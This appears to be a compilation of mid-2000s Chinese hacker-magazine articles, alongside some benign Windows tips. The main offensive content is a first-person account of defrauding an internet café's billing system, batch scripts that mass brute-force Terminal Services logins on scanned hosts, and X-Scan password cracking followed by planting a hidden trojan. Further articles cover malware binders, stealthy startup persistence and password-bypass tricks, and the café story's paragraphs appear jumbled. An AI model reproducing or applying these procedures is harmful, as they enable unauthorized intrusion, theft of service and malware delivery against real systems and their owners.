也许大家发现了我连接的时候，用户名必须是Guest（这就是我为什么要开Guest的原因了！）。我在它的C盘转了转，刚想传个马儿，这时我发现了一个陌生的文件夹：Octopus，如图5。

进去看看吧！呵呵，原来是主机的万象网络管家的主程序。我就在这时好奇地启动了万象的主程序“Server.exe”，不过弹出了一个错误提示框，如图6。不管它，GO ON。这时，我进入了和主机一样的界面，如图7。


这样放到这里啊！于是我下意识地把手伸进兜里摸根烟，没想到这一摸摸到了希望。因为我摸到了我的MP3。哈哈！128M呢，看看它全部的“Octopus”才50M，删了几首歌之后，把整个管理程序都装进去了。在我走出门的一瞬间，我终于明白为什么微软下一代操作系统要禁用USB设备了。


到了家，我打开了网吧的数据库，哎，居然要密码。找个工具试试吧，还真找到了——CHKen工具集，如图11。


破出密码下一步就是进去看看了，如图12。


哦，原来什么都在这里啊！来看看这个“会员卡”的表吧，如图13。网吧所有的会员密码都能看到！


给自己加点会员吧！先是进入了会员界面，然后我就按网管的操作（花钱加会员时偷学的）给自己加了10块钱的会员，如图8。加完了我查看了一下，多了10元啊！如图9。我简直不敢相信自己的眼睛，于是又加了10块钱，再晕，这样也行啊~~，如图10。

我现在的心情简直难以形容了\~\~\~看样这个会员是不能再用了。一看表，呀！该回家了，可是也不能把我辛苦得到的成果就这样放到这里啊！

以上就是我自己在网吧免费上网的花招，我觉得还是挺有用的！但有几点我还是要提一下：

- 1. 就是我向大家介绍的方法（不太安全！好像要在主机留下痕迹，你加多少会员就要赔多少）。
- 2. 控制主机的屏幕（同上）。
- 3. 迅速把数据库COPY下来，修改自己的会员，上传覆盖就可以了（这种方法目前没有试过，不过据我所知好像上传覆盖后，网吧所有计费记录都会恢复到你下载数据库时候的数据）。

（本章节涉及到的程序：CHKen工具集、DSScan.exe、ms04011.exe、Shed，已经收录在本期光盘中）


# 傻瓜黑客


## 终端服务之暴力破解篇

浪迹天

Win2000的终端服务（3389）大家都知道吧！它提供了通过作为终端仿真器工作的“瘦客户端”软件远程访问服务器桌面的能力。终端服务只把该程序的用户界面传给客户端，客户端然后返回键盘和鼠标活动操作，以便服务器处理。每个用户都只能登录并看到它们自己的会话，这些会话由服务器操作系统透明地进行管理，而且与任何其他客户端会话无关。客户端软件可以运行在多个客户端硬件设备上，这样的话，就可以用主机上的大量资源了。

作为菜鸟的我最喜欢的就是图形界面的肉鸡了。这里就有VNC之类的图形界面木马或者远程控制软件，但是这样的软件大都被杀毒软件给盯上了。于是我们总想办法找到3389肉鸡，使用的方法很多，像什么端口流量扫描、开3389服务之类的……

我们这次的主角就是**TScrack.exe**。TScrack.exe是针对终端服务的一个密码破解程序，可在本地或远程终端连接窗口，通过密码字典进行破解，可指定多种参数，使用较灵活。下面看参数说明。

- `-l`：使用`-l`后面的用户名
- `-w`：使用`-w`后面的字典
- `-p`：使用`-p`后的密码
- `-D`：登录主页面

```bash
E:\3389pj>tscrack
terminal services cracker (tscrack.exe) v2.1.77
usage help:
  tscrack [switch] [switch target] <Host/IP[:port]>
...
```

图1

通过上面的介绍，大家对这个程序有点认识了吧，不明白的再自己想想吧。我用例子来说：使用格式是这样的：

```bash
E:\3389pj>tscrack
terminal services cracker (tscrack.exe) v2.1.77
...
<Host/IP[:port]> : DNS name or IP address of target server
```

好了，知道格式了，我们就开始吧！假设我们现在想破解`218.XXX.XXX.X64`的管理员登录密码，就在CMD里这样输入：`tscrack 218.XXX.XXX.X64 -l administrator -p 12345678`。意思就是用“12345678”做密码来尝试登录该终端。

- `-h`：显示使用帮助然后退出
- `-V`：显示版本信息然后退出
- `-s`：在屏幕上打印出破解能力信息并退出
- `-b`：密码错误时发出声音
- `-t`：同时发出多个连接（多线程）
- `-N`：Prevent System Log entries on targeted server
- `-u`：卸载伪装tscrack组件
- `-f`：使用`-f`后面的密码
- `-F`：间隔时间（频率）


图2

这段代码的大概意思是从3389.txt（刚刚用SUPERSCAN保存后的文件）里取一段字符串，接着运行hack这段字符，保存后把后缀名改为BAT就可以了。再写一个BAT文件，名字为hack.bat，代码如下：

```bat
@if not exist tscrack.exe goto noscan
@tscrack %1 -l administrator -w pass.dic >>jieguo.txt
:noscan
@echo tscrack.exe no find or scan faild
```

这段代码的意思是：运行tscrack.exe，要破解的用户名为administrator（一般现在的管理员都用这个名字），字典文件为pass.dic。最后把3389.txt、3389.bat、hack.bat、pass.dic以及TSCRACK所有的文件放在同一个文件夹里，如图3。


图3

一定要用字典了。关于字典的配置我也不想说什么了，大家可以去网上找找，有很多的字典生成工具，像什么万能钥匙之类的，小榕也有这样的字典，然后就是制作字典。这里要注意的是密码数应该保持在2000左右，最好在万能钥匙的倒数第二步里选择常用的一些数字和英文，自己再加一点，例如：5201314、12345678等等。你要是不想自己做呢，网上也有做好的，下载就行了，我们假设这里我有个字典pass.dic。

好了，需要的我们都有了，我们来用批处理实现吧！方便一点啊！呵呵~~首先就是用SuperScan加大范围把开着3389的电脑扫下来吧，整理后保存为3389.txt（IP数不要太多，一般设在100个左右）。保存好后，就用记事本写一段批处理命令，名字为3389.bat，代码如下：

```bat
@if not exist 3389.txt goto noscan
@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
:noscan
@echo 3389.txt no find or scan faild
```

最后就是启动3389.bat。接下来要做的事就是等待了，结果会保存在jieguo.txt里。放在肉鸡上一晚上搞10来个极易网鸡都有可能。好了，就这些了，大家如果运气好的话，破几个3389的肉鸡肯定不是什么难事。但更要注意的是你的字典要做得很好。最后再说几句，你还是去网上看看字典的制作方法，做一个自己的字典。如果你还有什么问题的话，就到论坛（http://www.hackerxfiles.net/bbs）来说吧！

> （文章中涉及到的程序tscrack已收录于光盘中）

### 让98成为2k的武器

WZHPRO@JSCPU

我在2004年11期上写了《恶行网吧五毒招》后，一些朋友总是夸我的运气好，总是碰到没有设密码的网吧主机。而他们所在的网吧的密码不是很好猜。怎么办呢？98下不能运行LC4，网上破解器也大都是在NT下编译的，在98下无法运行。难道眼睁睁地看着网管在一边偷笑吗？不行！所以我今天就把在98下破解2k密码的具体方法告诉大家。

因为我们是暴力破解远程2k密码，所以要先准备一个好用的字典。我比较喜欢用“超级字典生成器（superdic）”，它的操作简单且生成速度相当快。制作完成后用它去替换X-SCAN目录下dat文件夹中的nt.pass.dic（文件名不要变，就用nt.pass.dic，这样免去了在设置中改的麻烦）。


先去扫描模块中把对方的IP填一下就可以开始扫描了。大家可以从图2中看出我已经利用X-SCAN把远程主机的密码破了出来，而且我仅仅用了十几分钟就搞定了。因为我的字典是随机生成的，所以如果精心设定一个好字典的话可能速度还要快不少。


好了，我们先和远程主机建立IPC$连接……再把对方的C盘映射过来……进入`C:\Documents and Settings\All Users\「开始」菜单\程序\启动`，一些程序就是从这里启动的。把配置好的木马放进去并设置隐藏属性，等待对方重启后即可自动运行。本文仅供网络技术交流，不是教大家入侵别人电脑，如有不妥欢迎批评指正。


### 小人物

前段时间在论坛看帖时发现一段bat代码，运行后可以个性化cmd。在原来不变的cmd下用久了，觉得这个很有意思。下面是我稍作修改后的结果。

```bat
@ECHO OFF
CLS
echo 火狐技术联盟
echo [www.wrsky.com]
echo 火狐技术联盟 %userdomain%\%username%
title 个性化你的cmd
color 02
prompt [ahxing@wrsky.com]#
@echo on
```

保存为`run.cmd.bat`。当你运行cmd的时候先运行它，cmd就会个性化（如下图）。但这种方法是一次性的，每次运行cmd都要再执行这个bat，是否能让它自动处理呢？


网上常见的办法是改注册表，把cmd和脚本关联起来。打开注册表的`HKEY_LOCAL_MACHINE\Software\Microsoft\Command Processor\AutoRun`或`HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun`，把值改为`run.cmd.bat`的路径即可（如`c:\winxp\system32\run.cmd.bat`）。这样永久生效。

## 打造自己的“启动”目录

说到自启动，早期常用`autoexec.bat`、`win.ini`、“启动”目录等方式；现在更多通过注册表、系统服务、组策略实现。很多木马也会利用这些位置隐藏。本文讨论把“启动”目录重定向到自定义路径，使其具备类似系统启动目录的效果。

```reg
Windows Registry Editor Version 5.00

[HKEY_USERS\S-1-5-21-861567501-602609370-1417001333-1000\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders]
"Startup"="C:\\winnt\\system32\\test\\"
```

`"Startup"="C:\\winnt\\system32\\test\\"`就是要变更的启动目录路径。

```reg
[HKEY_USERS\S-1-5-21-861567501-602609370-1417001333-1000\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders]
"Startup"=hex(2):63,00,3a,00,5c,00,77,00,69,00,6e,00,6e,00,74,00,5c,00,73,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,74,00,65,00,73,00,74,00,00,00
```

这里`"Startup"`的部分也要改成同样路径，只是格式不同（可用ASCII转16进制工具）。修改后，`c:\winnt\system32\`下的`TEST`目录就具备和启动目录相同的功能。

- 1. 不要在该目录里再放目录（启动/注销时目录会被打开）。
- 2. 像某些程序快捷方式会连带DLL运行，避免把主程序和DLL一起乱放。
- 3. 不要放会弹出黑框或明显界面的程序，容易暴露。

最后补充：启动或注销后按住`Shift`可以临时跳过启动目录中的项目。

（修改好的注册表文件已经收录于光盘中）

## 恶意脚本捆绑终结器

随着人们网络安全意识的提高，直接通过原始的方法让对方运行包括木马、后门等在内的各种恶意程序已经非常困难，所以黑客们通过各种方法将需要对方运行的恶意程序进行伪装。而其中，将恶意程序和正常的文件进行捆绑则是最简单、最可行也是最常用的一种方法，当用户点击这些捆绑好的文件后，其中的恶意程序就会被激活。

要将恶意程序和正常的文件进行捆绑，就需要一类名为捆绑器的软件；捆绑器的使用一般分为下面几个步骤：

- 添加捆绑文件，包括要捆绑的恶意程序和被捆绑的正规文件，例如图片、FLASH动画、游戏等；
- 设置捆绑的属性并选择捆绑后的文件图标；
- 合并文件（通常需注意添加顺序，一般先添加正规文件，后添加恶意程序）。

### 1. EXE文件捆绑机

EXE文件捆绑机是由黑洞的作者开发的一款文件捆绑工具。点击“文件1”和“文件2”按钮依次选择被捆绑的正规文件和要捆绑的恶意程序，然后点击“目标文件”按钮设置捆绑后的文件保存地址（如图1）。再点击“图标选择”按钮可在弹窗中设置图标，支持从ICO、BMP、EXE、DLL中提取图标（如图2）。设置完成后点击“确定”并执行“捆绑”即可生成文件。该工具主要支持EXE文件间捆绑。


### 2. 万能文件捆绑器

万能文件捆绑器是一款多文件捆绑工具。点击“添加文件”后可加入多个待捆绑文件（可超过2个，且支持EXE之外的文件类型，如图3）。随后可选择图标，若候选图标中没有需要的图标，可通过“选择图标”按钮指定。该工具主要支持ICO图标文件。


### 3. EXE捆绑机

EXE捆绑机是由蔬菜工作室开发的文件捆绑工具。分别点击“执行文件1”和“执行文件2”选择正规文件和恶意程序，再设置“目标文件”（如图4）。虽然界面显示支持所有文件类型，但实际测试中与非可执行文件捆绑后常无法正常运行，且图标选择能力有限，生成文件常使用“执行文件1”的图标。


### 4. GWBinder2002

GWBinder2002是较常见的多文件捆绑工具，支持在“要捆绑文件列表”中右键添加文件（如图5），并可在“设置”菜单中“选择图标”。用户还可以设置程序运行后文件释放路径，如“%TEMP%”“WINDIR”“SYSDIR”（如图6）。


### 5. 文件捆绑专家

文件捆绑专家支持多文件捆绑。点击“+”添加文件后，可设置“默认运行文件”（如图7），并通过“更改图标”指定图标来源，支持EXE、DLL、ICO、OCX、CPL、BMP等。除捆绑外还提供反捆绑查看功能，但主要适用于其自身生成的捆绑文件。


图7


图8

### 6. WINRAR

WINRAR是一种常用的压缩程序，不知是哪个高人发明了用它作为捆绑器的想法，真是佩服到极。由于用WINRAR作为捆绑器的文章已经很多，这里就不再赘述了。用WINRAR进行捆绑，不但对捆绑文件的数目不做限制，还可以设置捆绑文件运行后分解运行的文件夹和捆绑文件的图标，最主要的是不会被查杀，真是太棒了。

通过对这些捆绑器的使用，发现在从可执行文件（*.EXE）和动态链接库文件（*.DLL）中提取相关的图标进行使用后，捆绑后的文件图标有颜色丢失的情况出现，而使用图标文件（*.ICO）就不会出现这种情况。

上面讲了这么多关于文件捆绑的知识，下面简单讲讲怎样对这种捆绑有恶意程序的文件进行防范。虽然我们常常可以通过杀毒软件来识破这一欺骗手段，但是随着新木马的层出不穷以及旧木马的不断更新，杀毒软件往往很难在第一时间对其进行查杀，所以这样也增大了用户中木马的几率。今天，我为大家介绍一款名为“EXE捆绑检测机”的小程序，它不能对木马进行查杀，但是可以检测出EXE文件是否被捆绑了其他文件或是附加数据。

点击运行“EXE捆绑检测机”，弹出程序的操作界面（如图9）。在第一排文字中找到“这里”2字，点击选择要检测的EXE文件，然后程序会自动检测并在下面显示出检测结果。如果没有被捆绑程序，结果就会提示：文件XXX没有捆绑附加数据。如果被捆绑有其他的程序，结果就会提示：文件XXX存在捆绑加载，是将浏览数据另存为什么样？这样我们就知道该文件是否捆绑了其他的文件或是附加数据了。


图9

（文中涉及到的捆绑后EXE文件捆绑机、万能文件捆绑器、EXE捆绑机、GWBinder2002、文件捆绑专家、WINRAR、EXE捆绑检测机已收录于光盘中）


## 仙子

有些时候，我们的光驱实在是不方便让别人用，直接告诉别人太伤感情了，此时该怎么办呢？其实我们可以巧妙地设置一下，让光驱无法使用，这样就可以化解这个矛盾了。以下是笔者总结的“隐身”光驱的几个简单实用的小方法，写出来与大家分享经验。

### 一、修改 Autoexec.bat 文件法

在系统所在分区找到Autoexec.bat，这是自动批处理文件，包含在其中的命令可以在Windows启动过程中执行。我们可以用记事本打开该文件，然后在里面加入这条一行：`subst G: D:\tools`。这样当系统每次启动时，就会自动把光驱指向D盘的tools文件夹，因此别人只能看到该文件夹下面的内容，而无法使用你的光驱！如果你自己想用光驱时只要把 `subst G: D:\tools` 去掉就可以了。

### 二、修改 Config.sys 文件法

用记事本打开系统所在盘根目录下的config.sys文件。打开后在里面添加 `lastdrive=C:`，退出后把Config.sys文件的属性设置为“隐藏”。重新启动后再进入Windows，你的光驱已经不能访问了。无论对方怎么改注册表和Autoexec.bat文件，都不会有结果。

### 三、修改注册表法

到注册表 `HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建DWORD值 `NoDrives`，将其键值改为40（假设光驱是G盘），然后关闭注册表编辑器重新启动电脑，会把你的光驱隐藏起来，这样他人在Windows下就无法使用你的光驱了（图1）。


图1

不过，如果有人想在DOS下访问你的光驱，所以，我们还应防止他人在DOS下使用你的光驱。禁用DOS方式的方法是：

- 运行注册表编辑器Regedit打开注册表；
- 展开注册表数据库的 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies` 分支；
- 在Policies主键下新建一个名为 `WinOldApp` 的主键；
- 在WinOldApp主键下新建一个名为 `Disabled` 的DWORD值，并将其值设置为1（该项用于禁止用户进入Windows的MS-DOS窗口）；
- 在WinOldApp主键下新建一个名为 `NoRealMode` 的DWORD值，并将其值设置为1（该项用于禁止用户在关闭系统时选择“重新启动计算机并切换至MS-DOS状态”）。

然后用记事本打开C盘下的msdos.sys文件，在里面加上 `Bootkeys=0` 这一行（禁止F4、F5、F8等开机功能键），即可防止他人在DOS下使用你的光驱。这样就把Windows和DOS下进行了双重禁止，他人根本无法使用你的光驱了。

### 四、工具软件法

- **1. 使用超级兔子魔法**  
  运行超级兔子魔法设置，选择“高级隐藏”选项，在“隐藏磁盘”中选中你的光驱盘符并打勾，重启后可隐藏光驱，使其在“我的电脑”或“资源管理器”中不显示。


图4


图5


图2

- **2. 使用Tweak UI**  
  可安装Tweak UI，在“我的电脑”相关选项中取消光驱显示并确认，重启后即可隐藏光驱。

- **3. 使用Windows优化大师**  
  运行Windows优化大师，在系统优化设置中选择需要隐藏的驱动器并确认。

### 五、禁用设备管理器设置法

对于Windows 2000/XP用户，可在“我的电脑”属性中的“硬件”→“设备管理器”里找到光驱设备，选择“停用”，确认后即可让系统中光驱图标消失并无法正常使用。


图6


图3

### 六、BIOS设置法

开机进入BIOS，在集成外设选项中将对应IDE控制器设为Disabled，可使系统无法识别光驱，从而达到隐藏或禁用目的。


图7


图8

> （文中涉及到的程序超级兔子、Tweak UI、Windows优化大师已收录于光盘中）

### 七、磁盘映射法

将光盘映射为磁盘中的文件夹并删除原盘符，可让他人无法通过原光驱访问。可在“计算机管理”→“磁盘管理”中对目标驱动器进行“更改驱动器名和路径”，删除盘符并确认警告。


## Foxmail账户口令应急处理

在电子邮件软件Foxmail中可以给每个账户加上访问口令，以防止他人查看邮件。本文介绍在忘记口令时的应急处理方法。

- **1. 最简单的方法**  
  进入Foxmail\Mail目录，找到忘记密码账户对应目录下的 `account.stg` 文件，删除或改名后可不输入口令进入；也可用其他账户的 `Account.stg` 覆盖。

- **2. 打造“新”Foxmail法**  
  使用WinHex打开 `foxmail.exe`，查找特定16进制值并修改关键字节，使程序可绕过口令校验（文中给出不同版本对应值）。


继续修改后保存，可在相应版本Foxmail中实现无需口令进入加密账户。


- **3. 使用专用工具法**  
  可使用“Foxmail账户口令清除器”，选择目标账户目录后执行“清除密码”，再打开Foxmail即可进入忘记口令的账户。


- **4. 清空口令法**  
  口令保存在账户目录下 `Account.stg` 文件中。用WinHex/UltraEdit打开后，定位到指定偏移区间，将加密口令相关字节改为 `00` 并保存，即可清空账户口令。


- **5. 直接查看邮件内容法**  
  可借助“Foxmail邮件查看器”直接查看加密账户内邮件：将目标账户目录拖入工具窗口，选择中文件口令账户名，在提示输入密码时点击“取消”可直接查看内容。


- **6. 使用自己编写的软件**  
  文中介绍“Foxmail密码找回器”：运行后自动启动Foxmail，选择忘记口令账户，按提示输入任意内容并确认，可弹出包含密码的对话框。


**后记**：若在公用电脑使用Foxmail，可在使用后删除账户对应目录（位于Foxmail\Mail）以降低隐私泄露风险。

> （本文涉及程序WinHex、Foxmail账户口令清除器、Foxmail密码找回器等，原文称可在相关光盘收录。）

## 对KV2005“精兵简政”

阿荻

大家在安装了KV2005杀毒软件之后，会发现硬盘空间会减少100多MB，那么该如何精减KV2005使之体积减小，但是功能却不变呢？下面是笔者总结的小方法，希望对大家会有所帮助。


图1

### 一、删除无用的皮肤

KV支持换肤，并自带了八种皮肤。打开KV2005安装目录下的“style”子目录，每个jvs文件对应一种皮肤。由于皮肤是KV运行的必须组件，不能全删，至少保留一个（如deep.jvs），其余可删除，可节省约17.9MB。

### 二、删除多余的语言包

KV2005支持多语言，除简体中文外还包括繁体中文、日语和英语。语言包位于安装目录“Lang”子目录，可按文件名规则识别并删除非必要项，约可再节省4.2MB。

### 三、其它“无用”文件

- **BASKET文件夹**：约24.3MB，含KV2005全部程序文件，可删除其中工具类文件。  
- **Update文件夹**：含约24.6MB的KVBigFile.pak，若未升级可删除。  
- **KVAgent.acs文件**：杀毒助手，占约5.87MB，可删。  
- **kvxp.chm文件**：帮助文件，可删，约3.29MB。

精减后KV2005体积可降至约22.9MB。若删掉部分可执行组件（如举报、安全中心等）通常不影响主要功能，但需谨慎处理。


图2

## 解除 Outlook 与 MSN 之间的捆绑

小鱼

安装完Windows XP后，每次启动Outlook Express时都会自动激活MSN。本文介绍如何解除MSN对Outlook Express的绑定。

在微软.NET战略中，Windows Messenger不仅是聊天工具，也与MSN Messenger Service深度整合，因此Outlook Express会默认联动。

- 启动Outlook Express，进入“工具 → Windows Messenger → 选项”，在“账户”标签页将“首选用此账户登录”从“通信信使”改为“Net Passport”。


- 在“通信服务账户”栏目中，取消“我的账户包括通信服务的账户”前的勾选。  
- 点击“确定”，退出Windows Messenger并重启Outlook Express验证。

## 爬 Windows XP 系统管理员密码

英英

在使用Windows XP（2000）操作系统的过程中，我们可能因为某些原因把管理员（Administrator）密码给弄丢了，而在管理员下却有很多的工作要做，那么我们该怎么恢复呢？下面就介绍几种方法，使您能有效恢复管理员密码。

### 一、删除 SAM 文件

众所周知，Windows 2000的密码存放在系统所在的WinNT\System32\CONFIG（如果是XP，则目录为Windows\System32\CONFIG）下的SAM文件中。SAM文件即账号密码数据库文件。当我们登录系统时，系统会自动地和CONFIG中的SAM自动校对；如发现此次密码和用户名与SAM文件中的加密数据符合时，你就会顺利登录。如果错误则无法登录。既然如此，我们的第一个方法就产生了：删除SAM文件来恢复密码。


如果你使用的是FAT32分区格式，那么可以使用Windows 98启动盘运行电脑，然后删除SAM文件后，再重新启动，此时管理员Administrator账号已经没有密码了。这时你可以用Administrator账户登录系统，不用输入任何密码，进入系统后再重新设置你的管理员账户密码即可。

如果是NTFS格式，则稍麻烦些。如果有两个操作系统的话，可以使用另外一个访问NTFS的操作系统启动电脑，或者将这块硬盘以从盘模式挂接到其他能识别NTFS文件系统（如Windows 2000或Windows XP）的计算机上，删除SAM文件，重新启动即可。

### 二、从 SAM 文件中找密码

- 软件名称：LC4
- 软件版本：4.0
- 软件类别：共享
- 软件大小：3959KB
- 下载网址：ftp://dl.pop895.com/hack/29659.zip

LC4是一款超级密码破解利器，它可以实现从SAM文件中进行密码刺探破解。对于可以取得SAM文件的情况来说，选用它能帮助我们恢复管理员密码。

运行LC4（如图2），打开并新建一个任务，然后依次点击“IMPORT → Import from SAM file”，打开已待破解的SAM文件。此时LC4会自动分析此文件，并显示出文件中的用户名；之后点击“Session → Begin Audit”，即可开始破解密码。如果密码不是很复杂的话，很短时间内就会得到结果。


当然，LC4是个功能强大的软件，它的一些高级功能允许用户自定义破解策略，以及加密算法等，但其已不在本文讨论范围之内，具体使用方法这里不多讲述，有兴趣的朋友可以自己研究。

然而，这种方法也有它的不足之处，如果密码比较复杂的话，可能会需要几天或数月至几年的时间。很显然，在这种情况下这种方式就不再那么有效了。这时我们就需要用下面的方法了。

### 三、利用屏保破解密码

我们可以把“%systemroot%\system32\logon.scr”替换为cmd.exe或者explorer.exe，然后在系统登录处等待一会，系统就会去运行logon.scr这个屏保。因为你替换了这个屏保文件，所以实际上运行的是cmd.exe或者explorer.exe，并且是localsystem权限。

```bash
net user administrator
```

最简单的就是在cmd.exe里运行上面的命令，成功后管理员密码也被清空了，关闭cmd或explorer就可以用空口令登录了。

### 四、使用软件修改密码

Passware Kit Enterprise这款软件可以自动把Administrator密码修改为12345，重启系统后用此账号登录，然后在“控制面板”用户中，再重新修改管理员密码即可。

Passware Kit Enterprise可以找回各种世界上最受欢迎的办公应用程序打开或忘记密码，包括Excel、Word、Windows 2003/XP/2K/NT、Lotus Notes、RAR、WinZip、Access、Outlook。Acrobat、Quicken、QuickBooks、WordPerfect 以及 VBA……（介绍通过 Windows KEY 与启动盘恢复管理员密码的说明文字，含“12345”等示例）

| 字段 | 内容 |
|---|---|
| 软件名称 | Passware Kit |
| 软件版本 | 5.5 |
| 软件大小 | 2005KB |
| 软件类别 | 免费 |
| 下载地址 | http://www.xx-club.net/Soft_Down.asp?... |


图3

### 5.2 使用脚本恢复 WinXP 用户密码

Windows XP 启动脚本（startup scripts）是计算机在登录界面出现之前运行的批处理文件，其功能类似于 Windows 9X 和 DOS 中的自动执行批处理文件 autoexec.bat……

DOS 中的自动执行批处理文件 autoexec.bat。利用这个特性，可以编写一个批处理文件重新设置用户密码，并将它加入启动脚本中……（假设系统目录为 C:\Windows）

- 1. 使用 Windows98 启动盘启动电脑，编写 `a.bat`，内容如：`net user guozy 123456`，并保存到 `C:\windows\system32\GroupPolicy\Machine\Scripts\Startup`。
- 2. 编写启动/关机脚本配置文件 `scripts.ini`。
- 3. 将 `scripts.ini` 保存到 `C:\winnt\system32\GroupPolicy\Machine\Scripts`，并说明 `[Startup]` 与 `[Shutdown]` 两段、`XCmdLine` 与 `XParameters` 的含义。
- 4. 取出启动盘并重启，等待脚本运行后密码恢复为 `123456`。
- 5. 登录成功后删除上述步骤建立的两个文件。

```ini
[Startup]
0CmdLine=a.bat
0Parameters=
```

> 通过上面介绍的5种方法，相信您已经能够找到自己需要的管理员（Administrator）密码了！

## 清除系统中可能泄密的软件使用信息

在 Windows 系统和一些应用软件的使用过程中，不少会将程序操作或使用、修改过的文件保存为历史记录并显示在列表中……需要时应清除这些历史记录。

### 1. 清除托盘区已不使用的图标记录

Windows XP 的“隐藏不活动的图标”会产生较难清除的系统托盘历史记录。可在“自定义通知”中看到“当前项目”和“过去的项目”。

“过去的项目”中会记录已运行程序图标。可通过注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\TrayNotify` 删除 `IconStreams` 与 `PastIconsStream` 键值清除。

### 2. 清除浏览网页后的网址历史记录

打开注册表编辑器，定位到 `HKEY_CURRENT_USER\Software\Microsoft\InternetExplorer\TypedURLs`，删除右侧除“默认”之外的内容。

### 3. 清除 Word 历史记录

在 Word 菜单“工具→选项→常规”中，将“列出最近所用文件”选项取消勾选。

### 4. 清除 Excel 历史记录

Excel 可用同样方法，在“工具→选项→常规”中取消“列出最近所用文件”选项。

### 5. 清除写字板历史记录

打开注册表编辑器，找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Applets\Wordpad\Recent File List` 分支，将右侧窗格中的内容除“默认”一项之外统统删除即可。

### 6. 清除 MSN Messenger 登录记录

用过 MSN Messenger 登录后，账号会被记录。可在注册表 `HKEY_CURRENT_USER\Software\Microsoft\MSNMessenger` 中删除相关用户名记录；也可在“用户帐户”中删除不再需要的登录用户名对应的 E-mail 地址。

### 7. 清除 Windows Media Player 播放清单历史记录

在注册表 `HKEY_CURRENT_USER\Software\Microsoft\MediaPlayer\Player` 分支删除 `RecentURLList`、`Recent FileList`。WMP 9.0 以上版本也可在“工具→选项→隐私”中清除历史记录，并取消“在播放器中保存文件和 URL 历史记录”。

### 8. 清除 RealPlayer 10 播放文件历史记录

在“工具→首选项→常规→历史”中点击“清除历史记录”，并可取消允许在菜单中显示历史记录列表。

### 9. 清除 ACDSee 6.0 历史记录

在“工具→选项→浏览器”中，勾选“退出清除历史记录”即可。

### 10. 删除 QQ2004 中不需要的好友记录

进入 QQ2004 的“好友与资料”相关界面，在“黑名单”中选择并删除不需要的好友记录。

### 11. 清除 Foxmail 中的“废件箱”

Foxmail 删除邮件通常只是标记删除，未立即从硬盘清除。应在删除时使用 `Shift+Del` 直接删除，并对邮箱执行压缩，以避免邮件可被恢复。

### 12. 清除 Temp 中的垃圾

Word 等程序会在 `Windows\Temp` 保存临时文件（含文本、DOC、HTML、图片等）。应定期清理该目录及其子目录中的临时文件。

### 13. 清除“回收站”中的秘密

“回收站”中的文件并未真正删除；Windows 在磁盘分区根目录中有 `Recycled` 目录。离开计算机前应清空回收站，避免被恢复查看。

### 14. 清除“运行”中的秘密

“开始→运行”会记录执行过的程序与路径。可在注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` 中删除不需要的记录，重启后生效。


## 危机四伏的 Svchost 进程

细心读者可能发现，在 Windows XP 中有多个 Svchost 进程。为何会有这么多？这些进程危险吗？下面对该进程进行深入了解。

### 一、Svchost 进程原理篇

Windows 服务分为独立进程和共享进程。随着系统内置服务增多，Windows 2000 起很多服务通过 `Svchost.exe` 以共享方式启动。Svchost 本身是服务宿主，通过加载 DLL 服务并调用其入口来完成任务。

系统会根据注册表中的服务配置决定由哪个 Svchost 实例承载服务。相关服务项常见 `Parameters` 子项，`ServiceDLL` 指向负责该服务的动态链接库，并由 `ServiceMain()` 等入口函数处理服务逻辑。

每个组的服务共享一个 Svchost 进程。Svchost 组是由注册表 `[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Svchost]` 项来识别的。在这个注册表项下的每个值都代表单独的 Svchost 组，并在活动进程中作为单独的实例显示。这里的键值均为 `REG_MULTI_SZ` 类型的值，并且包含该 Svchost 组里运行的服务名称。

事实上，不同版本的 Windows 系统，存在不同数量的 Svchost 进程。在 Windows 2000 中有两个 Svchost 进程，而 Windows XP 则有四个或四个以上的 Svchost 进程。

### 二、Svchost 进程实例篇

要想查看在 Svchost 中运行服务的列表，可以在 Windows XP 命令提示符窗口下输入 `Tasklist /svc`，然后回车执行（如果使用的是 Windows 2000，可用 Support Tools 提供的 Tlist 工具查看，命令为 `Tlist -s`）。Tasklist 命令显示活动进程的列表，`/svc` 命令开关指定显示每个进程中活动服务的列表。从图1中可以看到，Svchost 进程启动很多系统服务，如：RpcSs（Remote Procedure Call）、Dhcp（DHCP Client）、Netman（Network Connections）服务等等。


这里以 RpcSS 服务为例，来具体了解一下 Svchost 进程与服务的关系。从控制面板中依次双击“管理工具→服务”，打开服务控制台。在右侧窗格中双击“Remote Procedure Call (RPC)”服务项，打开其属性对话框，可以看到 RpcSs 服务的可执行文件路径为 `C:\Windows\system32\svchost -k rpcss`。这说明 RpcSs 服务是依靠 Svchost 启动的，“-k rpcss”表示此服务包含在 Svchost 的 Rpcss 服务组中（如图2）。


另外，在 RpcSs 服务注册表中的位置 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs]`，还可以看到它的参数子项 Parameters 里有这样一个键值：“ServiceDll”=`%SystemRoot%\system32\rpcss.dll`，这也就表示：当启动 RpcSs 服务时，Svchost 就会调用 rpcss.dll，并且执行其 ServiceMain() 函数执行具体服务。

### 三、Svchost 进程安全篇

将系统内置服务以共享进程方式由 Svchost 启动，在一定程度上减少了系统资源的消耗，但也带来一些不稳定因素，因为任何一个共享进程的服务因错误退出就会导致整个进程中的所有服务都退出。此外，由于 Svchost 进程的特殊性，很多病毒、木马可以通过这个进程实现自动加载。

一般来说，木马和病毒要利用 Svchost 进程实现自动加载，需要在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` 分支下有相应的服务名。它们可以通过以下几种方式实现：

- 1. 在现有组里添加服务名；
- 2. 添加一个新的组，在组里添加服务名；
- 3. 直接使用现有组里的一个服务名，但本机没有安装的服务；
- 4. 修改现有组里的服务，将它的 ServiceDll 指向自己的 DLL 文件。

